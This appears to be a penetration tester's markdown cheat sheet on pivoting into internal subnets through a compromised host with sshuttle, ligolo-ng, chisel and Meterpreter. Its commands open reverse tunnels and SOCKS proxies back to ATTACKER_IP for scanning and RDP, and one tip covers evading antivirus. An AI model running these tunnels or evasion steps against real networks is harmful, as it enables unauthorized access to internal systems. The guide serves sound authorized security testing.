 # Pivoting

**Goal:** fast, stable access to internal subnets with the least moving parts. Use this when a box is live and you need results now.

## Decision Flow
- **Have SSH creds/access to a pivot host?** → Start with **sshuttle** (quick L3-ish route).
- **Need full L3, multi-protocol, and tun interface?** → **ligolo-ng** (agent + proxy).
- **SSH blocked but HTTP/HTTPS allowed?** → **chisel** (reverse SOCKS). Use with proxychains.
- **Already on Meterpreter and it’s stable?** → Use `autoroute` + `socks_proxy` **only then**.

---

## sshuttle - fast poor-man’s VPN
You can `ping`/`nmap`/`rdp` internal targets directly without extra proxies. If routes don’t push, add `--dns` for internal resolution or specify `-x` exclusions.

```bash
# add multiple subnets by repeating the CIDR(s)
sudo sshuttle -r user@PIVOT 10.10.0.0/16 -v

```

---

## ligolo-ng - clean L3 via tun
When you want a real tun interface and stable, multi-protocol traffic (RDP/SMB/LDAP/etc.).

**Attacker (proxy):**

```bash
sudo ./proxy -autocert
# inside ligolo console:
interface_create --name pivot0
```

**Pivot (agent):**

```bash
./agent -connect ATTACKER_IP:11601
```

**Back on attacker (console):**
```text
session            # select the agent
tunnel_start --tun pivot0
# then add routes to the target subnets using your OS route commands
```

**What good looks like:** `ip addr` shows `pivot0` tun; `ip route` includes internal CIDRs; tools work natively.

---

## chisel - reverse SOCKS over HTTP
SSH won’t fly but egress to your host over HTTP[S] is allowed.

**Attacker:**
```bash
./chisel server --reverse -p 1234 --socks5 -v
```

**Pivot:**
```bash
./chisel client -v ATTACKER_IP:1234 R:socks
```

**Usage with proxychains:**
```bash
proxychains -q xfreerdp /v:TARGET:3389
```

SOCKS5 at `127.0.0.1:1080` works for TCP tools through proxychains.

---

## Meterpreter routing (only if you already have it)
Don’t force Meterpreter just for pivoting. If present and stable:

1) Start a `socks_proxy` in msfconsole.

2) Add routes with `post/multi/manage/autoroute`.

3) Run tools via `proxychains`/SOCKS.

4) Prefer native tunnels above when possible for simplicity.

---

## Quick Verification
```bash
# Show glibc/libc on pivot (sanity when dropping agents)
getconf GNU_LIBC_VERSION || true

# Show routes/tun on attacker
ip route | sed -n '1,50p'
ip addr show

# Confirm SOCKS works (for chisel/Meterpreter route)
proxychains -q curl -m 5 http://TARGET:80/ -I
```

---

## Common Obstacles & Fixes (short list)
- **ICMP blocked:** Use TCP `nmap -Pn` and application-layer checks.

- **DNS fails inside tunnel:** Add `--dns` (sshuttle) or set `/etc/resolv.conf` to internal DNS temporarily.

- **RDP/SMB stutter on SOCKS:** Prefer ligolo (L3) over SOCKS for chatty protocols.

- **Agent killed by AV:** Rename agent, place in tmp-paths, or use in-memory where appropriate and allowed.


---

## Cheatsheet (copy/paste)
```bash
# sshuttle quick add
sudo sshuttle -r user@PIVOT 172.16.5.0/23 --dns -v

# ligolo proxy/agent basics
sudo ./proxy -autocert; interface_create --name pivot0
./agent -connect ATTACKER_IP:11601
# route example (Linux host)
sudo ip route add 172.16.5.0/23 dev pivot0

# chisel reverse socks + proxychains
./chisel server --reverse -p 1234 --socks5
./chisel client ATTACKER_IP:1234 R:socks
proxychains -q nmap -sT -Pn -p445 172.16.5.10
```
